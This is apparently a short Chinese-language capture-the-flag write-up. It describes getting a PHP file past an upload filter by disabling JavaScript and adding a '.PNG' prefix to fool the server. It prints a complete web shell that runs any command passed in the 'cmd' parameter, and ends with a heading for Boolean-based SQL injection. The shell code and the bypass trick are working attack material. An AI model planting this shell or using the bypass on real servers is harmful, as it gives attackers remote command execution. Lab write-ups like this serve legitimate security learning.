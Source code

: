 上傳一個web shell的檔案
先把JS關掉以免php的檔案被擋

網路上找到的web shell code
在前面加上.PNG 欺騙伺服器
``` 
.PNG <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
最後透過 web shell 找到flag

### Boolean based SQL Injection 
![image](sqlib.png)
